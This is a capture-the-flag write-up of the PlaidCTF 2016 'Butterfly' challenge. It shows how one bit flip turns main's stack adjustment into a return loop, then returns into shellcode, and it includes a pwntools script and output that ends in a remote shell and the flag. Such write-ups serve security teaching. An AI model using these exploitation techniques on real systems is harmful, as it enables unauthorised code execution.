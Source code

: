 ```yaml
---
layout: post
title: Plaidctf 2016 Butterfly
comments: false
category: ctf
tags: ctf, plaidctf, reversing, pwnable
---
```


This is a write-up of the challenge Butterfly from the Plaid ctf 2016.

# The challenge

Butterfly is a 64bit x86 linux pwnable, which simply lets you flip a single bit by shining a cosmic ray at it.

It works by `mprotect`'ing the page with read-write-execute before flipping the bit and then calling mprotect again to remove write rigths.

# The exploit

As we can flip arbitary bits in both the code and data, it knew that we should either flip the bit the code of `main` or in some got entry,
to get control of `rip`.

At the end of `main` we found:

```text
  400860:   48 83 c4 48             add    rsp,0x48
  400864:   5b                      pop    rbx
  400865:   41 5e                   pop    r14
  400867:   41 5f                   pop    r15
  400869:   5d                      pop    rbp
  40086a:   c3                      ret
```
and thus flipping the 6'th bit at 400863 would change the `add rsp,0x48` to `add rsp, 0x8`,
and so `main` would return to an address of our choosing.

So by letting `main` to return to `main` we was able to get unlimited bit flips.

```python
from pwn import *
context(arch="amd64")

e = ELF("./butterfly_33e86bcc2f0a21d57970dc6907867bed")
#r = remote("butterfly.pwning.xxx", 9999)
r = process("./butterfly_33e86bcc2f0a21d57970dc6907867bed")

addr = 0x400860+3
num = (addr << 3) + 6
r.sendline(str(num).ljust(40)+p64(e.symbols["main"]))
```

which when run gives us:

```sh
$ python doit_butterfly.py
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed'
[+] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed': Done
[*] Switching to interactive mode
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
```

note that "THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?" is written twice, this is because we are re-executing `main`.

So from here it was easy to write some shellcode in the `.bss` and just return to it...

# Final exploit

{% gist 9ae520bc2bfeca537bd119760f149f0b %}
```sh
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Opening connection to butterfly.pwning.xxx on port 9999
[x] Opening connection to butterfly.pwning.xxx on port 9999: Trying 13.92.239.242
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
```


